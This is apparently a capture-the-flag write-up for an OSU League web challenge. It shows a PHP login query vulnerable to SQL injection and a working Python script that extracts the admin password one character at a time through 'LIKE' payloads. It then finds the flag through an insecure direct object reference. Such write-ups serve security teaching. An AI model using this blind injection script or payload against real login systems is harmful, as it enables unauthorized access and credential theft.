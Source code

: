 ```yaml
---
title: "OSU League 2020/2021 - web 2 Writeup"
date: 2020-11-21
tags:
  - osuleague
  - ctf
  - security
---
```


For this challenge, we are given a website.  Opening the link takes us to this page:

{{< figure src="/img/webpage.png" >}}

Looks like we are presented with a login. We are also given the source code to this webpage, so maybe we can do something with that.

Looking through the source code, we see a comment mentioning a vulnerable piece of code:

```php
    // XXX: this is vuln to SQL injection!
    $query_str = "SELECT id, username, password FROM users WHERE username='$username';";
    echo '* <b>Query:</b> ' . htmlentities($query_str) . '<br>'
```

This piece of code is vulnerable to something known as a SQL injection.  With a specially crafted username, we can escape the `$username` and add on to the query with our own SQL code.  But what can we add onto the query in order login? 

The answer is the `LIKE` operator.  According to w3schools:
> The LIKE operator is used in a WHERE clause to search for a specified pattern in a column.
>
> There are two wildcards often used in conjunction with the LIKE operator:
>
> % - The percent sign represents zero, one, or multiple characters
> _ - The underscore represents a single character

So if we can make `username='$username'` evaluate to true, and then tack on a `and password like 'x%'`, and just iterate all possible characters for `x`, we can get the first character of the password for said username.  We can then repeat that process for every character until we get the full password.

After some trial and error, we can figure out that the username we want to steal from is `admin`.  and so the query we want to inject is `admin' and password like 'x%`

We can write a simple python script to automate this process:

```python
import requests
import string

url_val = "http://ctf-league.osusec.org:8080/login.php"
obj = {'password':'', 'username':''}
failed = "password is incorrect"
pwd = ''

while True:
    for i in string.printable:
        obj['username'] = "admin' and password like '" + pwd + i + "%"

        x = requests.post(url = url_val, data = obj, timeout=2.5)

        if(x.text.find(failed) > 0):
            pwd = pwd + i
            print(pwd)
            break

```

Running this script we get the password for admin:
```
$ python3 pwn.py
k
kl
kl6
kl62
kl62j
kl62jd
kl62jdi
kl62jdic
kl62jdicu
kl62jdicu3
kl62jdicu31
kl62jdicu31a
kl62jdicu31ad
kl62jdicu31ad%
```
The password is `kl62jdicu31ad`

After logging in, we are greeted with another page.  This one seems to be some sort of note maker:

{{< figure src="/img/notes.png" >}}

We are told to look into "Insecure direct object references", which is a type of access control vulnerability that happens in applications that use user supplied input directly.  

Opening a note, we can see how we could abuse that:

{{< figure src="/img/note_6.png" >}}

What if we directly modified the url to point us to a note that would otherwise be inaccesible?  Let's try setting it to `1`:

{{< figure src="/img/note_1.png" >}}

Next note contains the flag! Changing it to `2` and we get our flag:

{{< figure src="/img/flag.png" >}}

```
flag{r3m3mber_t0-g00gle_wh3n_f@cing_a_d1fficult-challenge!}
```
